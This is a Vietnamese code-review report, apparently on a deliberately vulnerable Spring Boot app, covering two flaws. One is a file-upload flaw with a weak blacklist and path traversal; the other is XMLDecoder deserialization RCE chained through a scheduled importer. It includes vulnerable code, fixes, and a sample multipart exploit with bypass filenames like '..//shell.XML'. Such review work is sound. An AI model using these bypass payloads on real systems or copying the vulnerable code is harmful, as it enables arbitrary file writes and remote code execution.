# FileUpload
---

## 1. Kết luận nhanh cho FileUpload

| Thuộc tính         | Giá trị                                                                                                                                |
| ------------------ | -------------------------------------------------------------------------------------------------------------------------------------- |
| Entry point        | `POST /api/v1/user/{id}/avatar`                                                                                                        |
| Quyền truy cập     | `ROLE_USER` hoặc `ROLE_ADMIN`, và user chỉ upload cho chính mình nếu không phải admin                                                  |
| Source chính       | `MultipartFile file`, optional multipart field `filename`, `MultipartFile#getOriginalFilename()`                                       |
| Sink chính         | `file.transferTo(destination.toFile())`                                                                                                |
| Stored path        | `uploads/avatars/<filename>`                                                                                                           |
| Owner-checked exposure | `/uploads/**` map tới `app.upload-dir`, anonymous bị chặn, user thường chỉ fetch được upload gắn với chính mình, admin xem được tất cả |
| Lỗi blacklist      | Chỉ chặn đuôi file bằng `filename.endsWith(...)`, case-sensitive, không whitelist MIME/extension ảnh                                   |
| Lỗi path traversal | Dùng regex yếu để chặn `../`, sau đó `avatarDir.resolve(filename)` mà không `normalize()` + `startsWith(avatarDir)` trước khi ghi file |

> **Nhận định:** đây là vulnerable flow hoàn chỉnh: attacker điều khiển filename/file content, backend dùng filename đó để build path ghi file, blacklist không đủ mạnh, traversal filter có bypass, file được ghi vào upload root có route tĩnh được bảo vệ bằng JWT hoặc thoát khỏi `/avatars`.

---

## 2. Sơ đồ dữ liệu tổng quát


---

## 3. Hướng 1 - Truy vết từ sink đến source

### 3.1. Fuzz dangerous function để tìm sink candidate

Trước khi lần ngược về input, hướng sink -> source bắt đầu bằng bước fuzz/tìm kiếm các dangerous function. Mục tiêu là không đoán endpoint trước, mà quét các API có khả năng tạo tác động nguy hiểm rồi mới chọn sink thật để truy dataflow.

| Nhóm dangerous function | Pattern fuzz trong code                                                        | Candidate tìm thấy                                                                      | Kết luận                                                                |
| ----------------------- | ------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------- | ----------------------------------------------------------------------- |
| File write từ upload    | `transferTo`, `Files.write`, `Files.copy`, `Files.move`                        | `file.transferTo(destination.toFile())` trong `UserServiceImpl.uploadAvatar`            | Sink chính của FileUpload                                               |
| Path construction       | `Path.resolve`, `Paths.get`, `new File`                                        | `avatarDir.resolve(filename)`                                                           | Path phụ thuộc filename                                                 |
| Static exposure         | `addResourceHandler`, `requestMatchers("/uploads/**")`, `AuthorizationManager` | `WebConfig.addResourceHandlers`, `WebSecurityConfig`, `UploadOwnerAuthorizationManager` | File dưới upload root có HTTP route được bảo vệ bằng JWT và owner-check |
| Filename source helper  | `getOriginalFilename`, `@RequestParam("filename")`                             | `resolveUploadFilename(...)`, `UserController.uploadAvatar(...)`                        | Tìm được input điều khiển path                                          |

Trình tự phân tích sink -> source trong report này:

1. Fuzz dangerous function để lấy danh sách sink candidate.
2. Chọn sink có tác động thật: `transferTo(...)`.
3. Lần ngược biến path: `destination` <- `avatarDir.resolve(filename)`.
4. Lần ngược sanitizer: `rejectRelativeParentPath(...)`, `isBlockedByBlacklist(...)`.
5. Lần ngược source: `requestedFilename` hoặc `file.getOriginalFilename()`.
6. Xác nhận entry point: `POST /api/v1/user/{id}/avatar`.
7. Xác nhận exposure sau ghi: `/uploads/**` cần JWT và qua `UploadOwnerAuthorizationManager` trước khi static resource được trả.

### 3.2. Bắt đầu từ sink ghi file

**File:** `src/main/java/org/example/serviceImpl/UserServiceImpl.java`

```java
Path avatarDir = Paths.get(uploadDir, "avatars").toAbsolutePath().normalize();
Files.createDirectories(avatarDir);

String filename = resolveUploadFilename(file, requestedFilename);

rejectRelativeParentPath(filename, "Filename cannot contain ../");
if (isBlockedByBlacklist(filename)) {
    throw new IllegalArgumentException("This file type is not allowed");
}

Path destination = avatarDir.resolve(filename);       // [SINK-ADJACENT]
if (destination.getParent() != null) {
    Files.createDirectories(destination.getParent());  // [PATH WRITE PREP]
}

file.transferTo(destination.toFile());                // [SINK]
user.setAvatarUrl("/uploads/avatars/" + filename);    // [STORED OUTPUT]
```

| Dòng phân tích                | Ý nghĩa                                                                                                            |
| ----------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| `avatarDir`                   | Base directory hợp lệ được normalize: `uploads/avatars` hoặc `/app/uploads/avatars` trong Docker                   |
| `filename`                    | Không phải server-generated; đến từ request hoặc `OriginalFilename`                                                |
| `rejectRelativeParentPath`    | Có kiểm tra traversal nhưng regex yếu (`Pattern.compile("(^\|/)\\.\\./(?!/)")`)                                    |
| `isBlockedByBlacklist`        | Chỉ blacklist một số đuôi nguy hiểm, không whitelist ảnh (`".exe", ".bat", ".cmd", ".sh", ".jar", ".jsp", ".xml"`) |
| `avatarDir.resolve(filename)` | Nếu `filename` chứa traversal/absolute path, path đích bị attacker ảnh hưởng                                       |
| `transferTo(...)`             | Sink ghi file thật lên filesystem                                                                                  |
| `setAvatarUrl(...)`           | Lưu URL dựa trên filename không chuẩn hóa                                                                          |

### 3.3. Kiểm tra path construction

```java
Path destination = avatarDir.resolve(filename);
```

Điểm cần đánh dấu khi review:

- Không gọi `normalize()` trên `destination` trước khi ghi file.
- Không kiểm tra `destination.startsWith(avatarDir)`.
- Không ép filename về basename bằng `Paths.get(filename).getFileName()`.
- Không tự sinh tên file server-side.
- Không giới hạn thư mục con hợp lệ dưới `avatars`.

Ví dụ logic fix đã được comment ngay dưới sink:

```java
String extension = getSafeImageExtension(contentType);
String safeFilename = UUID.randomUUID() + extension;
Path destination = avatarDir.resolve(safeFilename).normalize();
if (!destination.startsWith(avatarDir)) {
    throw new IllegalArgumentException("Invalid upload path");
}

file.transferTo(destination.toFile());
user.setAvatarUrl("/uploads/avatars/" + safeFilename);
```

### 3.4. Truy ngược validation blacklist

```java
private static final Set<String> BLOCKED_FILE_EXTENSIONS = Set.of(
        ".exe",
        ".bat",
        ".cmd",
        ".sh",
        ".jar",
        ".jsp",
        ".xml");

private boolean isBlockedByBlacklist(String filename) {
    return BLOCKED_FILE_EXTENSIONS.stream().anyMatch(filename::endsWith);
}
```

| Vấn đề                            | Vì sao nguy hiểm                                                                                                   |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| Blacklist thay vì whitelist       | File không nằm trong danh sách chặn vẫn được ghi, ví dụ `.html`, `.svg`, `.php`, `.phtml`, hoặc định dạng polyglot |
| `endsWith` case-sensitive         | `.JSP`, `.Xml`, `.Sh` không khớp blacklist hiện tại                                                                |
| Không kiểm tra MIME thật          | `file.getContentType()` không được dùng; magic bytes cũng không được kiểm tra                                      |
| Không tách extension cuối an toàn | Tên kiểu nhiều đuôi có thể bypass filter nếu đuôi cuối không bị blacklist                                          |
| Không đổi tên file                | Attacker giữ nguyên tên file và cấu trúc path                                                                      |

### 3.5. Truy ngược validation path traversal

```java
private static final Pattern OBVIOUS_PARENT_TRAVERSAL =
        Pattern.compile("(^|/)\\.\\./(?!/)");

private void rejectRelativeParentPath(String value, String message) {
    if (OBVIOUS_PARENT_TRAVERSAL.matcher(value).find()) {
        throw new IllegalArgumentException(message);
    }
}
```

| Dấu hiệu                     | Kết luận                                                              |
| ---------------------------- | --------------------------------------------------------------------- |
| Regex chỉ nhìn dấu `/`       | Không xử lý separator khác trong một số môi trường                    |
| Pattern có `(?!/)` sau `../` | Chặn `../file`, nhưng có thể bỏ sót dạng separator lặp như `..//file` |
| Không normalize sau filter   | Filesystem vẫn có thể resolve parent segment khi ghi                  |
| Không so sánh với root thật  | Không có invariant `finalPath.startsWith(avatarDir)`                  |

Comment fix hiện có trong code đã nêu đúng hướng:

```java
private static final Pattern OBVIOUS_PARENT_TRAVERSAL =
        Pattern.compile("(^|[\\\\/])\\.\\.(?:[\\\\/]+|$)");
```

Tuy nhiên, regex chỉ nên là lớp phụ. Fix chính vẫn là:

```java
Path destination = avatarDir.resolve(safeFilename).normalize();
if (!destination.startsWith(avatarDir)) {
    throw new IllegalArgumentException("Invalid upload path");
}
```

### 3.6. Truy ngược source filename

```java
private String resolveUploadFilename(MultipartFile file, String requestedFilename) {
    if (requestedFilename != null && !requestedFilename.isBlank()) {
        return requestedFilename.trim();       // [SOURCE-1] multipart field "filename"
    }
    return file.getOriginalFilename();         // [SOURCE-2] client-controlled original filename
}
```

| Source                       | Điều khiển bởi ai                     | Ghi chú                                            |
| ---------------------------- | ------------------------------------- | -------------------------------------------------- |
| `requestedFilename`          | Client gửi multipart field `filename` | UI hiện tại không gửi, nhưng API backend vẫn nhận  |
| `file.getOriginalFilename()` | Client multipart upload               | Không đáng tin; có thể chứa tên lạ/path tùy client |

### 3.7. Truy ngược controller endpoint

**File:** `src/main/java/org/example/controller/UserController.java`

```java
@PostMapping(value = "/{id}/avatar", consumes = MediaType.MULTIPART_FORM_DATA_VALUE)
public ResponseEntity<?> uploadAvatar(@PathVariable Integer id,
                                      @RequestParam("file") MultipartFile file,
                                      @RequestParam(value = "filename", required = false) String filename,
                                      Authentication authentication) {
    try {
        if (!canAccessUser(authentication, id)) {
            return ResponseEntity.status(403).body("Forbidden");
        }
        User user = userService.uploadAvatar(id, file, filename);
        return ResponseEntity.ok().body(user);
    }
}
```

| Điểm đọc | Kết luận |
| --- | --- |
| `@RequestParam("file") MultipartFile file` | Source file content |
| `@RequestParam(value = "filename", required = false)` | Source filename trực tiếp, dù UI không dùng |
| `canAccessUser(authentication, id)` | Giới hạn user upload avatar của chính mình hoặc admin |
| `userService.uploadAvatar(...)` | Data đi vào service sink không qua normalize/allowlist ở controller |

### 3.8. Truy ngược owner-checked exposure

**File:** `src/main/java/org/example/config/WebConfig.java`

```java
Path uploadPath = Paths.get(uploadDir).toAbsolutePath().normalize();
registry.addResourceHandler("/uploads/**")
        .addResourceLocations(uploadPath.toUri().toString());
```

**File:** `src/main/java/org/example/security/WebSecurityConfig.java`

```java
.requestMatchers("/v3/**", "/swagger-ui/**", "/swagger-ui", "/swagger-ui.html").permitAll()
.requestMatchers("/uploads/**").access(uploadOwnerAuthorizationManager)
```

**File:** `src/main/java/org/example/security/UploadOwnerAuthorizationManager.java`

```java
return userRepository.existsByIdAndAvatarUrlAndIsDeletedFalse(userId, uploadUrl)
        || bookingOrderRepository.existsByUserIdAndQrCodeAndIsDeletedFalse(userId, uploadUrl)
        || transactionRepository.existsByUserIdAndQrCodeAndIsDeletedFalse(userId, uploadUrl)
        || isCurrentUserProfileQr(userDetails, uploadUrl);
```

**File:** `frontend/src/services/api.js`

```js
export const getProtectedUpload = (url) => {
  const token = localStorage.getItem('token');
  return axios.get(resolveUploadUrl(url), {
    responseType: 'blob',
    headers: token ? { Authorization: `Bearer ${token}` } : {},
  });
};
```

**File:** `frontend/src/hooks/useProtectedUploadUrl.js`

```js
return url.startsWith('/uploads/') || url.includes('/uploads/');
```

| Ý nghĩa                                | Tác động |
| -------------------------------------- | -------- |
| `/uploads/**` map tới `app.upload-dir` | File ghi dưới upload root vẫn có HTTP route tĩnh |
| `/uploads/**` dùng `UploadOwnerAuthorizationManager` | Anonymous bị chặn, user thường cần sở hữu upload URL |
| Owner avatar | Cho phép khi `User.avatarUrl` khớp upload URL của chính user |
| Owner booking QR | Cho phép khi `BookingOrder.qrCode` hoặc `Transaction.qrCode` khớp và thuộc chính user |
| Profile member QR | Cho phép QR profile động suy ra từ email hiện tại |
| Admin | Cho phép đọc mọi upload để không làm vỡ màn quản trị |
| Frontend dùng `getProtectedUpload(...)` | Avatar/QR dưới `/uploads/**` được fetch bằng JWT rồi render qua blob URL |
| `avatarUrl` lưu relative URL | DB vẫn lưu đường dẫn dựa trên filename không chuẩn hóa |

---

## 4. Hướng 2 - Truy vết từ source đến sink

### 4.1. Source bình thường từ UI profile

**File:** `frontend/src/pages/Profile.jsx`

```jsx
const handleAvatarChange = async (e) => {
  const file = e.target.files?.[0];       // [SOURCE] file từ input browser
  e.target.value = '';

  if (!file) {
    return;
  }
  if (file.size > 5 * 1024 * 1024) {      // [CLIENT CHECK] chỉ size, không đủ bảo vệ server
    toast.error('Ảnh đại diện không được vượt quá 5MB');
    return;
  }

  const response = await uploadUserAvatar(user.id, file);
};

<input
  type="file"
  className="hidden"
  onChange={handleAvatarChange}
  disabled={avatarUploading}
/>
```

| Điểm đọc                    | Kết luận                                                                    |
| --------------------------- | --------------------------------------------------------------------------- |
| `type="file"`               | Người dùng chọn file ở browser                                              |
| Check size ở client         | Có thể bypass bằng request trực tiếp; server chỉ dựa vào multipart max-size |
| Không có `accept="image/*"` | UI không tự hạn chế ảnh, nhưng kể cả có cũng không phải boundary bảo mật    |

### 4.2. Source đi qua API client

**File:** `frontend/src/services/api.js`

```js
export const uploadUserAvatar = (userId, file) => {
  const formData = new FormData();
  formData.append('file', file);           // [SOURCE] multipart part "file"

  return api.post(`/user/${userId}/avatar`, formData);
};
```

| Điểm đọc                        | Kết luận                                             |
| ------------------------------- | ---------------------------------------------------- |
| `FormData.append('file', file)` | Browser gửi filename mặc định của file               |
| `api` tự gắn JWT                | Endpoint yêu cầu auth                                |

### 4.3. Source tới controller binding

```java
@RequestParam("file") MultipartFile file,
@RequestParam(value = "filename", required = false) String filename
```

Tại đây có hai nguồn input:
1. `file`: nội dung file và original filename.
2. `filename`: field multipart tùy ý nếu attacker gửi request thủ công.

### 4.4. Controller chuyển nguyên input xuống service

```java
User user = userService.uploadAvatar(id, file, filename);
```

Không có bước nào ở controller để:

- ép filename về basename;
- whitelist MIME/extension;
- sinh tên file mới;
- normalize path;
- chặn absolute path;
- kiểm tra final path còn nằm trong `avatarDir`.

### 4.5. Service nhận source và quyết định filename

```java
String filename = resolveUploadFilename(file, requestedFilename);
```

Luồng rẽ nhánh:

| Nhánh | Điều kiện | Filename dùng để ghi |
| --- | --- | --- |
| `requestedFilename` | Multipart có field `filename` không rỗng | `requestedFilename.trim()` |
| `OriginalFilename` | Không có field `filename` | `file.getOriginalFilename()` |

### 4.6. Validation không cắt được dữ liệu nguy hiểm

```java
rejectRelativeParentPath(filename, "Filename cannot contain ../");
if (isBlockedByBlacklist(filename)) {
    throw new IllegalArgumentException("This file type is not allowed");
}
```

| Dạng kiểm tra           | Có                                                                 | Thiếu                                                          |
| ----------------------- | ------------------------------------------------------------------ | -------------------------------------------------------------- |
| Chặn một vài extension  | Có blacklist `.exe`, `.bat`, `.cmd`, `.sh`, `.jar`, `.jsp`, `.xml` | Không whitelist ảnh                                            |
| Chặn traversal đơn giản | Có regex cho một số dạng `../`                                     | Không normalize, không `startsWith`, bypass được separator lặp |
| Chặn content độc hại    | Không                                                              | Không kiểm tra MIME thật/magic bytes                           |
| Chặn filename đặc biệt  | Không đầy đủ                                                       | Không reject absolute path, control chars, reserved names      |

### 4.7. Input chạm sink

```java
Path destination = avatarDir.resolve(filename);
file.transferTo(destination.toFile());
```

Từ góc nhìn source-to-sink, đây là điểm xác nhận lỗ hổng:

- Source `filename` vẫn giữ quyền điều khiển path.
- Sink `transferTo` nhận `destination` bị ảnh hưởng bởi source.
- Không có sanitizer mạnh nằm giữa source và sink.

### 4.8. Output được lưu và serve qua protected upload route

```java
user.setAvatarUrl("/uploads/avatars/" + filename);
return userRepository.save(user);
```

Sau ghi file:

- DB lưu `avatarUrl`.
- Profile render avatar bằng URL đó.
- Static route `/uploads/**` hiện yêu cầu JWT và owner-check; file nằm dưới `app.upload-dir` không còn public anonymous và user thường chỉ lấy được URL gắn với chính mình.

---

## 5. Hai biến thể phát hiện chính

### 5.1. Blacklist bypass

| Bước review                   | Dấu hiệu                                                              |
| ----------------------------- | --------------------------------------------------------------------- |
| Tìm extension policy          | `BLOCKED_FILE_EXTENSIONS` là blacklist                                |
| Tìm allowlist ảnh             | Không có `ALLOWED_IMAGE_TYPES`, không có `getSafeImageExtension` thật |
| Tìm server-generated filename | Không có `UUID.randomUUID()` trong code chạy thật                     |
| Tìm content validation        | Không kiểm tra MIME/magic bytes                                       |

Kết luận phát hiện:

```text
Nếu chỉ blacklist một số đuôi và vẫn cho client quyết định filename,
thì reviewer đánh dấu FileUpload blacklist bypass.
```

### 5.2. Path traversal

| Bước review | Dấu hiệu |
| --- | --- |
| Tìm nơi ghép path | `avatarDir.resolve(filename)` |
| Tìm sanitizer | Regex `OBVIOUS_PARENT_TRAVERSAL` |
| Kiểm tra normalize | Không có `destination.normalize()` trước `transferTo` |
| Kiểm tra boundary | Không có `destination.startsWith(avatarDir)` |
| Kiểm tra absolute path | Không reject filename absolute |
| Kiểm tra parent mkdir | `Files.createDirectories(destination.getParent())` có thể chuẩn bị thư mục theo path attacker chọn |

Kết luận phát hiện:

```text
Nếu attacker-controlled filename đi vào Path.resolve(...) rồi transferTo(...)
mà không có normalize + startsWith(baseDir), đánh dấu arbitrary file write/path traversal.
```

---

## 6. Khai thác lỗ hổng

Thay đổi trực tiếp field `filename` sử dụng tên file có extension có thể bypass được Backlist và có thể chèn `..//` để bypass regex cho phép khai thác Path traversal:

```http
------WebKitFormBoundaryqJRfwZA29YbZZTwf
Content-Disposition: form-data; name="file"; filename="..//shell.XML"
Content-Type: image/jpeg

...


------WebKitFormBoundaryqJRfwZA29YbZZTwf--
```

---
## 7. Tổng kết

FileUpload flow này không chỉ là "cho upload file sai đuôi". Điểm nguy hiểm nằm ở tổ hợp:

1. Client kiểm soát filename;
2. Blacklist yếu;
3. Traversal filter yếu;
4. `Path.resolve(filename)` không kiểm tra boundary;
5. `transferTo` ghi file thật;
6. `/uploads/**` hiện được serve qua static route sau owner-check: admin được xem mọi upload, user thường chỉ xem upload URL gắn với chính mình.


# XXE (XMLDecoder RCE)

---


## 1. Kết luận nhanh cho XXE XMLDecoder

| Hạng mục | Giá trị |
|---|---|
| Module nghiệp vụ | Admin import promotion XML |
| Direct source | `POST /api/v1/promotion/import-xml` với multipart field `file` |
| Chained source | FileUpload avatar có thể ghi traversal vào `imports/promotions/*.XML` |
| Sink chính | `new XMLDecoder(...).readObject()` |
| Trigger | Scheduled job `importPromotionXmlFiles()` quét thư mục import theo chu kỳ |
| Quyền trực tiếp | `ROLE_ADMIN` trên endpoint import XML |
| Quyền khi chain FileUpload | User tự upload avatar của mình, nếu filename bypass được blacklist/traversal và ghi được sang import dir |
| Impact | Java object deserialization qua XMLDecoder, có thể gọi method/constructor ngoài ý định trước khi type-check `Promotion` |
| File quan trọng | `PromotionController`, `PromotionServiceImpl`, `WebSecurityConfig`, `UserServiceImpl` |

> **Nhận định:** Sink thực tế không phải `DocumentBuilderFactory`/external entity expansion truyền thống. Điểm nguy hiểm nằm ở `java.beans.XMLDecoder`: XML được coi như object graph Java và `readObject()` có thể kích hoạt method invocation. Vì vậy classification chính xác trong code review là **XMLDecoder unsafe deserialization/RCE**, đặt dưới nhóm XXE/XML attack surface.

---

## 2. Bản đồ flow tổng quan



Điểm nối với FileUpload nằm ở filesystem, không nằm ở HTTP read-back. Owner-check cho `/uploads/**` chỉ bảo vệ việc đọc file upload qua web route; chain này lợi dụng write sink để đặt XML vào thư mục `imports/promotions`, sau đó scheduled job đọc trực tiếp từ disk.

---

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

Theo quy tắc sink -> source, bắt đầu bằng fuzz/search các dangerous function, rồi mới lần ngược về input:

| Nhóm fuzz               | Pattern cần tìm                                           | Kết quả trong repo                              | Ý nghĩa                                |
| ----------------------- | --------------------------------------------------------- | ----------------------------------------------- | -------------------------------------- |
| XML object decoder      | `XMLDecoder`, `readObject`                                | `PromotionServiceImpl.importPromotionXml(...)`  | Sink chính                             |
| Java deserialization    | `ObjectInputStream`, `readObject`                         | Không phải flow này                             | Loại khỏi XXE XMLDecoder               |
| XML parser truyền thống | `DocumentBuilderFactory`, `SAXParserFactory`, `SAXReader` | Không phải flow này                             | Không phải XXE external entity classic |
| File queue/import       | `DirectoryStream`, `Files.newInputStream`, `Scheduled`    | `importPromotionXmlFiles()` quét import dir     | Trigger gián tiếp                      |
| Upload/file write       | `MultipartFile`, `transferTo`, `Files.move`               | `queuePromotionXml(...)` và `uploadAvatar(...)` | Source đưa XML vào disk                |

Kết quả fuzz xác định sink cần audit:

```java
// src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
private void importPromotionXml(Path xmlFile) {
    try (XMLDecoder decoder = new XMLDecoder(new BufferedInputStream(Files.newInputStream(xmlFile)))) {
        Object decodedObject = decoder.readObject(); // [SINK] object graph/method invocation
        if (decodedObject instanceof Promotion promotion) {
            Promotion savedPromotion = importPromotion(promotion);
            logger.info("Imported promotion XML {} as promotion {}", xmlFile.getFileName(), savedPromotion.getCode());
        } else {
            logger.info("Imported promotion XML {} as {}", xmlFile.getFileName(), decodedObject);
        }
        moveToProcessed(xmlFile);
    } catch (Exception e) {
        logger.warn("Failed to import promotion XML {}", xmlFile.getFileName(), e);
    }
}
```

### 3.2. Từ `readObject()` lần ngược ra file trên disk

`readObject()` không nhận input trực tiếp từ request. Nó nhận `xmlFile`, là từng file được scheduled job lấy từ thư mục import:

```java
// src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
@Scheduled(
    initialDelayString = "${app.promotion-import-initial-delay-ms:3000}",
    fixedDelayString = "${app.promotion-import-fixed-delay-ms:6000}"
)
public void importPromotionXmlFiles() {
    Path promotionDir = Paths.get(importDir).toAbsolutePath().normalize();

    try (DirectoryStream<Path> files = Files.newDirectoryStream(promotionDir, "*.{xml,XML}")) {
        for (Path xmlFile : files) {
            importPromotionXml(xmlFile); // [SINK CALL]
        }
    } catch (IOException e) {
        logger.warn("Could not scan promotion import directory {}", promotionDir, e);
    }
}
```

Các điểm cần chú ý khi review:

| Code | Vai trò | Ghi chú phát hiện |
|---|---|---|
| `@Scheduled(...)` | Trigger tự động | Attacker chỉ cần đặt file vào đúng thư mục, không cần gọi sink trực tiếp |
| `Paths.get(importDir).toAbsolutePath().normalize()` | Base import directory | Normalize base path nhưng không làm XML an toàn |
| `Files.newDirectoryStream(..., "*.{xml,XML}")` | Chọn candidate XML | Cho phép cả lowercase và uppercase extension |
| `importPromotionXml(xmlFile)` | Điểm gọi sink | File nào match glob đều đi vào XMLDecoder |
| Catch exception không move file | Retry lặp lại | Payload lỗi có thể bị thử lại ở các vòng scheduled sau |

### 3.3. Từ import directory lần ngược ra direct source

Direct source nằm ở endpoint admin import XML:

```java
// src/main/java/org/example/controller/PromotionController.java
@PostMapping(value = "/import-xml", consumes = MediaType.MULTIPART_FORM_DATA_VALUE)
public ResponseEntity<?> importPromotionXml(@RequestParam("file") MultipartFile file) {
    try {
        return ResponseEntity.ok().body(promotionService.queuePromotionXml(file)); // [SOURCE -> QUEUE]
    } catch (IllegalArgumentException e) {
        return ResponseEntity.badRequest().body(e.getMessage());
    } catch (IOException e) {
        return ResponseEntity.internalServerError().body("Could not queue promotion XML import");
    }
}
```

Security rule:

```java
// src/main/java/org/example/security/WebSecurityConfig.java
.requestMatchers(HttpMethod.POST, "/api/v1/promotion/import-xml").hasRole("ADMIN")
```

Queue logic:

```java
// src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
public Map<String, String> queuePromotionXml(MultipartFile file) throws IOException {
    String originalFilename = file.getOriginalFilename();              // [SOURCE: client filename]
    String safeFilename = Paths.get(originalFilename).getFileName().toString();
    if (!safeFilename.toLowerCase().endsWith(".xml")) {
        throw new IllegalArgumentException("Only XML promotion files are allowed");
    }

    Path promotionDir = Paths.get(importDir).toAbsolutePath().normalize();
    Files.createDirectories(promotionDir);

    Path destination = promotionDir.resolve(safeFilename).normalize(); // [QUEUE PATH]
    Path uploadingFile = promotionDir.resolve(safeFilename + ".uploading").normalize();

    file.transferTo(uploadingFile.toFile());                           // [WRITE XML]
    Files.move(uploadingFile, destination, StandardCopyOption.REPLACE_EXISTING);

    return Map.of("status", "QUEUED", "fileName", safeFilename, "path", destination.toString());
}
```

Direct source kết luận:

| Bước | Input attacker điều khiển | Có đủ để tới sink không? |
|---|---|---|
| Multipart `file` | Nội dung XML | Có, nội dung được ghi nguyên vẹn vào import dir |
| Multipart filename | Tên file | Có ảnh hưởng tới tên file queued, nhưng đã bị `getFileName()` cắt path |
| Extension check | `.xml` lowercase | Direct import yêu cầu `.xml`; không cần bypass |
| Scheduler | Không do attacker gọi | Tự chạy theo cấu hình |

### 3.4. Từ import directory lần ngược ra FileUpload chained source

Ngoài direct admin endpoint, FileUpload có thể kết hợp nếu attacker dùng avatar upload để ghi file ra ngoài `uploads/avatars` và rơi vào `imports/promotions`.

```java
// src/main/java/org/example/serviceImpl/UserServiceImpl.java
private static final Set<String> BLOCKED_FILE_EXTENSIONS = Set.of(
        ".exe", ".bat", ".cmd", ".sh", ".jar", ".jsp", ".xml");

private static final Pattern OBVIOUS_PARENT_TRAVERSAL =
        Pattern.compile("(^|/)\\.\\./(?!/)");

public User uploadAvatar(Integer id, MultipartFile file, String requestedFilename) throws IOException {
    Path avatarDir = Paths.get(uploadDir, "avatars").toAbsolutePath().normalize();
    String filename = resolveUploadFilename(file, requestedFilename);  // [SOURCE]

    rejectRelativeParentPath(filename, "Filename cannot contain ../"); // misses ..//
    if (isBlockedByBlacklist(filename)) {                              // case-sensitive
        throw new IllegalArgumentException("This file type is not allowed");
    }

    Path destination = avatarDir.resolve(filename);                    // [PATH SINK]
    if (destination.getParent() != null) {
        Files.createDirectories(destination.getParent());
    }

    file.transferTo(destination.toFile());                             // [WRITE]
    user.setAvatarUrl("/uploads/avatars/" + filename);
    return userRepository.save(user);
}

private boolean isBlockedByBlacklist(String filename) {
    return BLOCKED_FILE_EXTENSIONS.stream().anyMatch(filename::endsWith);
}
```

Nhánh kết hợp hợp lệ khi các điều kiện này cùng đúng:

| Điều kiện                                                                        | Vì sao cần                                                     |
| -------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| Filename dùng repeated slash traversal như `..//..//imports/promotions/poc.XML`  | Regex chỉ bắt `../` dạng obvious, không bắt `..//`             |
| Extension dùng uppercase `.XML`                                                  | Avatar blacklist chặn `.xml` case-sensitive, nên `.XML` bypass |
| Đường đi từ `uploads/avatars` tới `imports/promotions` đúng theo cấu hình deploy | Importer chỉ quét `app.promotion-import-dir`                   |
| Scheduler đang bật                                                               | File chỉ kích hoạt khi importer quét                           |
| Payload XMLDecoder hợp lệ                                                        | `readObject()` phải parse được object graph                    |

Flow chain:

```mermaid
flowchart LR
    A["POST /api/v1/user/{id}/avatar"]
    B["filename: ..//..//imports/promotions/poc.XML"]
    C["OBVIOUS_PARENT_TRAVERSAL misses repeated slash"]
    D["Blacklist misses uppercase .XML"]
    E["avatarDir.resolve(filename)"]
    F["transferTo writes outside uploads/avatars"]
    G["imports/promotions/poc.XML"]
    H["Scheduled importer"]
    I["XMLDecoder.readObject()"]

    A --> B --> C --> D --> E --> F --> G --> H --> I
```

Kết luận sink -> source:

```text
Nếu XMLDecoder.readObject() đọc file từ thư mục mà attacker có thể ghi vào,
đánh dấu unsafe XML object deserialization/RCE.

Nếu FileUpload có traversal/arbitrary write vào chính thư mục import đó,
đánh dấu chained FileUpload -> XMLDecoder RCE.
```

---

## 4. Source -> Sink

### 4.1. Direct source: Admin import XML

Frontend source:

```jsx
// frontend/src/pages/admin/Promotions.jsx
<input
  type="file"
  accept=".xml,text/xml,application/xml"
  onChange={(event) => setSelectedFile(event.target.files?.[0] || null)}
/>
```

```javascript
// frontend/src/services/api.js
export const importPromotionXml = (file) => {
  const formData = new FormData();
  formData.append('file', file);

  return api.post('/promotion/import-xml', formData);
};
```

Backend route:

```java
@PostMapping(value = "/import-xml", consumes = MediaType.MULTIPART_FORM_DATA_VALUE)
public ResponseEntity<?> importPromotionXml(@RequestParam("file") MultipartFile file) {
    return ResponseEntity.ok().body(promotionService.queuePromotionXml(file));
}
```

Filesystem queue:

```java
Path destination = promotionDir.resolve(safeFilename).normalize();
Path uploadingFile = promotionDir.resolve(safeFilename + ".uploading").normalize();

file.transferTo(uploadingFile.toFile());
Files.move(uploadingFile, destination, StandardCopyOption.REPLACE_EXISTING);
```

Scheduled sink:

```java
try (XMLDecoder decoder = new XMLDecoder(new BufferedInputStream(Files.newInputStream(xmlFile)))) {
    Object decodedObject = decoder.readObject(); // [RCE/DESERIALIZATION SINK]
    if (decodedObject instanceof Promotion promotion) {
        Promotion savedPromotion = importPromotion(promotion);
